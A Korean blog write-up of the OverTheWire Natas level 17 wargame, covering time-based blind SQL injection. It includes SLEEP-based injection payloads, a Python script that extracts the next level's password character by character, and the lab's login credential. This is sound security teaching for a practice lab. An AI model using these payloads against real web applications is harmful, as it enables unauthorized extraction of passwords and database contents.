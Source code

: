 ```yaml
---
title: Natas Level 17 풀이
date: 2024-04-13 09:13:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0413/natas17a.png
---
```

<br>
## 로그인
---
> Username: natas17
> <br> URL: <http://natas17.natas.labs.overthewire.org>


이번에는 username을 입력하는 칸이 있다.<br>
소스코드를 보면,<br>
<br>![Desktop View](assets/img/0413/natas17b.png){: width="700" height="400" }<br>


입력한 유저가 존재하든, 존재하지 않든, 쿼리문에 에러가 뜨든.. 입력받는 모든 쿼리에 대해 아무것도 출력하지 않는다.<br>
따라서 Blind SQL injection 문제이다.<br>


<br>
<br>
<br>
## 풀이
---
<br>사용자 입력을 쿼리에 바로 넣어서 실행시키고 있으므로,<br>
필터링 걱정 없이 쿼리만 잘 조작하면 된다.


우선 참인 쿼리문과 거짓인 쿼리문의 차이를 찾기 위해 sleep()을 이용했다.<br>


<b>natas18" and SLEEP(3) #</b> 을 입력했을 때, 3초가량의 딜레이가 있었던 반면<br> <b>happy" and SLEEP(3) #</b> 을 입력했을 때는 딜레이 없이 빈 화면이 출력되었다.<br>


이는 username 중에 natas18이 존재한다는 뜻이므로, 패스워드 한 글자씩 넣어서 참인지 확인하는 쿼리를 넣으면 된다.<br>


```sql
natas18" AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'natas18'), 1, 1)) = ASCII('a'), SLEEP(5), 0) #
```
 
위의 쿼리는 natas18의 패스워드의 첫 글자가 a 이면 sleep(5)가 작동한다.<br>
이를 바탕으로 자동화프로그램을 쓰면 된다.


<br>
<br>
<br>
## 자동화 프로그램
---
```python
import requests
from requests.auth import HTTPBasicAuth
import time
 
url = 'http://natas17.natas.labs.overthewire.org/'
auth = HTTPBasicAuth('natas17', 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd')
 
pw = ''
characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
 
for position in range(33):
    for char in characters:
        sql_query = f'natas18" AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username="natas18"), {position}, 1)) = ASCII("{char}"), SLEEP(5), 0) #'
        data = {'username': sql_query}
 
        start_time = time.time()
        response = requests.post(url, auth=auth, data=data)
        duration = time.time() - start_time
 
        if duration > 5:
            pw += char
            print(f'{position}번: {char}')
            break
 
print(f'natas18 password: {pw}')
```

<br>
> 주의 사항은, time() 함수에 5초 이상 넣어야 한다..<br>
처음에 3초로 했었는데 패스워드가 맞지 않아 검색해보니 5초 이상 설정해야 한다고 한다.<br> 5초 미만으로 할 시 일부 맞지 않는 패스워드 문자가 나온다.<br>
{: .prompt-tip }


<br> 결과:
<br>![Desktop View](assets/img/0413/natas17d.png){: w="200" h="500" }<br>
